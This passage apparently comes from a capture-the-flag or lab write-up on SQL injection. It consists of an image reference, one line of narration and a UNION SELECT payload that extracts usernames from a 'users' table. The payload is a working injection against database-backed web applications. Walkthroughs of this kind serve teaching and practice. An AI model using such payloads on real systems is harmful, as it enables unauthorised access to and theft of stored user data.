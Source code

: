 <figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we got the interesting tables, so now we'll try getting both at once:

```
abcd'union select 1,username,3,4,5,6 from users;-- -
```
